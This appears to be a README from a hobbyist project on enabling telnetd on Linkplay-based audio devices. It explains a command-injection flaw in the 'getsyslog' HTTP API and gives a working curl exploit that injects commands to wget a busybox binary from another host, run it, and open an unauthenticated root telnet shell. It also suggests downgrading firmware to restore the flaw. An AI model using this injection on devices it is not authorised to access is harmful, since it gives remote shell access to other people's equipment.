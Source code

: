 # Enable telnetd
To enable telnetd on these devices, a security vulnerability had to be exploited. The first version on my devices was 4.2.8020 from 2020/02/20 (20th of Feb 2020) that still had a vulnerability in their code: internally a "sprintf" function was used to prepare a Linux CLI commands. That function was using an IP address as an input, but the input could be extended with ";" and additional commands to download and install a telnetd.

The command that has this vulnerability is **_"getsyslog"_**, see https://developer.arylic.com/httpapi/#get-system-log and https://labs.withsecure.com/advisories/linkplay-firmware-wanlan-remote-code-execution. The command has an option to add an IP address from a slave device, e.g. **_"getsyslog:ip:10.1.1.90"_**, so a CLI command is executed on the device to retrieve the system log from the slave device that includes the IP address. Instead of just having an IP address as a parameter, that CLI command can also include a ";" and a second CLI command. You do not even have to provide an IP address, but can append the ";" and second command directly after the ":ip:". 

If your Linkplay device is running a newer version, you may have to downgrade the firmware first, see [Downgrade Firmware](/Downgrade.md).

The following code snippets are using the IP address 10.1.1.58 for my Arylic Up2Stream device and 10.1.1.22 for a web server running on my local MacMini. You need to create the subdirectories on your web server and copy the busybox binary to it. On my Mac mini it's the directory ***/Library/WebServer/Documents/linkplay*** that is accessible as http://10.1.1.22/linkplay. To organize all the files on my web server I've created several subdirectories below to store the binary file (***.../linkplay/a31/bin/busybox***).
```
curl "http://10.1.1.58/httpapi.asp?command=getsyslog:ip:10.1.1.22/index.html;mkdir+/tmp/bin;wget+-O+/tmp/bin/busybox+-T+5+http://10.1.1.22/linkplay/a31/bin/busybox+-q;chmod+555+/tmp/bin/busybox;/tmp/bin/busybox+telnetd+-l/bin/ash;"
```
The command above is executing the following commands on the device in addition to the "getsyslog" request:
```
mkdir /tmp/bin
wget -O /tmp/bin/busybox -T 5 http://10.1.1.22/linkplay/a31/bin/busybox -q;
chmod 555 /tmp/bin/busybox;
/tmp/bin/busybox telnetd -l/bin/ash;
```
> **Note:**
> Don't forget to add a ";" at the end inside the quotes. Replace all spaces with "+" if you want to create your own URL with curl.

The tool **_"busybox"_** is like a swiss army knife and combines a lot of CLI commands in a single binary file. That file was stripped down in the version that was running on my Linplay device and does not include a telnetd anymore. Therefore you have to get a full version from somewhere. 

A version of busybox is provided here (see binary directory). That binary is compatible with the SoC that is running on the Linkplay A31 module, see [Hardware and Firmware](/Hardware.md) for details about the hardware.

There is an OpenWRT archive available where you can get precompiled binaries for almost all utilities you may need. See section [Firmware](/Hardware.md#firmware) for details.
